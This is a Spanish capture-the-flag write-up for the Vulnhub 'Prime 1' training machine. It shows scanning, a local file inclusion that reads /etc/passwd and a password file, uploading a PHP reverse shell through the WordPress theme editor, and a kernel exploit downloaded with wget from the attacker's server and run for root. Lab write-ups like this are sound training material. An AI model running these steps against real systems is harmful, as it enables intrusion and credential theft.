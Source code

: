 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=FF0000&width=200&height=70&lines=Prime_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/prime-1,358/

</br>

> Esta máquina está diseñada para aquellos que intentan prepararse para el examen OSCP. 

<h1 align="center"><img src="https://user-images.githubusercontent.com/75953873/173474426-a673d820-8b68-40c9-89f6-4686e436978f.png"></h1>

- *Paso 1:* Identificar la IP de la máquina host con NetDiscover. 
```
netdiscover -i eth0
```
![2](https://user-images.githubusercontent.com/75953873/173475187-1682b0c5-0c7e-410c-9455-98e8cd6c5e81.png)

IP host: `192.168.25.133`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -Pn -vvv 192.168.25.133
```
![3](https://user-images.githubusercontent.com/75953873/173475468-fee78430-41f0-4a6f-a18d-5934250a6aac.png)

Puertos abiertos: [22,80]

- *Paso 3:* Escaneo agresivo para detectar servicios corriendo.
```
nmap -A 192.168.25.133
```
![4](https://user-images.githubusercontent.com/75953873/173476100-ae65ae3d-4a36-466c-aa98-fbc4fee2c738.png)

Servidor corriendo: **HTTP Apache**

- *Paso 4:* Recorrido de ruta: enumerar archivos .txt con Dirb.

URL: `http://192.168.25.133`

![5](https://user-images.githubusercontent.com/75953873/173476731-79f7a93a-f659-4563-9cfd-d1f271f16a90.png)

```
dirb http://192.168.25.133 -X .txt
```
![6](https://user-images.githubusercontent.com/75953873/173477255-427b51b9-6023-48d8-a0aa-fbb42aa4af16.png)

Archivo secreto: `http://192.168.25.133/secret.txt`

![7](https://user-images.githubusercontent.com/75953873/173477715-6d51f82c-21fe-42c4-854f-fc5f9ca5d17a.png)

Probar los comandos Fuzzing que proporciona el repositorio de Github, el objetivo es encontrar un párametro para navegar dentro de él.

Comando fuzzy: `file`

![8](https://user-images.githubusercontent.com/75953873/173478463-cfd85ea0-4cdc-465c-95a1-79f699dcfd5a.png)

Unir la URL: `http://192.168.25.133/index.php?file=`

![9](https://user-images.githubusercontent.com/75953873/173478799-cd7249ce-8843-499b-917d-c43d22dcc4f4.png)

Archivo proporcionado: `location.txt`

URL completa: `http://192.168.25.133/index.php?file=location.txt`

![10](https://user-images.githubusercontent.com/75953873/173478934-d1f7d4ab-2b65-4666-87f9-346ebcae02b7.png)

El archivo `location.txt` nos dio una pista para usar `secrettire360` como parámetro en otra página php aprovechando la vulnerabilidad de inclusión de archivos locales (LFI).

Localizar archivos `.php` con Dirb:
```
dirb http://192.168.25.133 -X .php
```
![11](https://user-images.githubusercontent.com/75953873/173479528-29899116-a8f6-4a6a-b435-1ebca5e8c50d.png)

Pista: `secrettire360`

URL completa: `http://192.168.25.133/image.php?secrettier360`

```
dirb http://192.168.25.133 -X .php `http://192.168.25.133/image.php?secrettier360` /usr/share/dirb/wordlists/extensions_common.txt
```
![12](https://user-images.githubusercontent.com/75953873/173480064-2e0d0446-d55b-4bbc-97d1-1e7b4fa919f1.png)

URL completa: `http://192.168.25.133/image.php?secrettier360=/etc/passwd`

El usuario `Saket` menciona que dentro de su directorio `/home/saket/` se encuentra el archivo `password.txt`.

![13](https://user-images.githubusercontent.com/75953873/173481350-5277704e-627a-4568-9ded-bf3f91e9a38f.png)

URL completa: `http://192.168.25.133/image.php?secrettier360=/home/saket/password.txt`

![14](https://user-images.githubusercontent.com/75953873/173481656-71110280-511b-4654-823f-1a818ed71a09.png)

**_Credenciales WordPress_**

Usuario: `victor`

Contraseña: `follow_the_ippsec`

URL login: `http://192.168.25.133/wordpress/wp-login.php`

![15](https://user-images.githubusercontent.com/75953873/173482220-0ac1e036-8fea-4224-a696-d31344dd3aa1.png)

- *Paso 5:* Escribir código malicioso PHP.

Apariencia **>** Editor de temas **>** secret.php

![16](https://user-images.githubusercontent.com/75953873/173482698-dbb9561f-e59e-41ef-82d9-8a2152341170.png)

Ruta del código PHP del reverse shell:

```
cat /usr/share/webshells/php/php-reverse-shell.php
```
Cambiar la línea `$ip` por la IP local de su máquina, el puerto lo establecen a `4444`. Guardar cambios **_'Update Files'_**.

![17](https://user-images.githubusercontent.com/75953873/173484877-992337aa-07ec-4e77-9911-3d2012f90cec.png)

- *Paso 6:* Obtener una reverse shell con Netcat.
```
nc -lvp 4444
```

Recargar URL: `http://192.168.25.133/wordpress/wp-content/themes/twentynineteen/secret.php`

![18](https://user-images.githubusercontent.com/75953873/173485293-44576e95-de83-4473-a5f7-bb5a11c5db44.png)

Extraer información de los ficheros `user.txt` y `password.txt`:
```
cat user.txt && cat password.txt
```
![19](https://user-images.githubusercontent.com/75953873/173485677-7abb1021-7e79-4e87-ba5c-20cb4fffc4d2.png)

- *Paso 7:* Escalar privilegios: buscar exploit.

![20](https://user-images.githubusercontent.com/75953873/173485896-7949c037-0d58-4c15-b031-ea2413af4110.png)

Versión del kernel: `4.10.0-28-generic`

![21](https://user-images.githubusercontent.com/75953873/173487947-ee6f8a17-ab97-4f46-93f6-11cf43ed5e7f.png)

Repositorio del código: `https://github.com/kkamagui/linux-kernel-exploits/blob/master/kernel-4.10.0-28-generic/CVE-2017-16995/CVE-2017-16995.c`

Copiar el código y guardarlo con la extensión `kernel.c`.

Abrir un servidor local en el puerto 80 con Python3:
```
python3 -m http.server 80
```
![22](https://user-images.githubusercontent.com/75953873/173488228-64eac9ac-e121-49f5-b84b-eea275f526ff.png)

Descargar el exploit en la ruta `/tmp` desde la sesión obtenida (**reverse shell**); compilar y dar permisos de escritrura, lectura y ejecucción.
```
cd /tmp
wget http://192.168.1.9/kernel.c
gcc kernel.c -o kernel
chmod 777 kernel
```
![23](https://user-images.githubusercontent.com/75953873/173488738-0392288d-4024-488b-9295-e4ea89066120.png)

Por último, explotamos el kernel `./kernel` y extraemos la key (flag) del fichero `root.txt`:
```
cat root.txt
```
![24](https://user-images.githubusercontent.com/75953873/173489371-d5c4398b-a2a6-4222-89c0-07be64091c03.png)

**KEY:** b2b17036da1de94cfb024540a8e7075a
